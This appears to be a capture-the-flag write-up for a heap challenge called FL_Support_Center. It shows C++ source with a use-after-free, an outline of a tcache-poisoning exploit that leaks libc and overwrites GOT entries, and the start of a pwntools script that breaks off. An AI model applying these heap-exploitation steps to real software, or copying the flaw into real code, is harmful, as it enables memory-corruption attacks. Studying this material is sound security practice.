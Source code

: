 ```c++
      if (it->first == "FL*Support*Center@fl.support.center") { // UAF
        support_contact++;
        if (contact > MAX_SUPPORT_CONTACT) {
          std::cout << "Too many contacts" << std::endl;
          return;
        }
        std::cout << "Thank you for contacting FL*Support*Center." << std::endl;
        std::cout << "Is there anything that didn't meet your expectations?"
                  << std::endl;
        std::cout << "Please let us know." << std::endl;

        if (it->second != "") {
          std::cout << "Do you want to delete the sent message: " << it->second
                    << "(yes or no)" << std::endl;
          std::cout << "> ";
          std::cin >> yon;
          if (yon != "yes") {
            break;
          }
        }

        std::cout << "Message: " << std::endl;
        std::cin >> message;
        if (message.size() >= 0x100) {
          std::cout << "Too long" << std::endl;
        } else {
          it->second = message;
        }
      }
    }
    it = next;
  }
  return;
}
```

# 🗡️ Exploitation
- Prepare some small bins for later use of leaking libc
- Leak Heap & control tcache_entry
- Control the challenge structure on the heap (by editing tcache_entry) to do AAR -> Leak the libc pointers in small bins 
- Control the got for libstdc++. (fine some good ones tha we have RIP+RDI)

```py
from pwn import *
# context.log_level='debug'
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def XxX(leaked,page_off, orecal):
    if(page_off<0):
        neg=1
        page_off=-page_off
    else:
        neg=-1
    x1 = (page_off >> 24)
    x2 = ((page_off >> 12) & 0xfff)
    x3 = (page_off & 0xfff)
    A = leaked >> 36
    D = orecal
    G = (leaked & 0xfff) ^ D
    if(x3>G):
        JW1 = 1
```

[1]: https://github.com/n132/CTF-Write-Up/blob/main/2024-TSG-CTF/FL_Support_Center/FL_Support_Center.tar.gz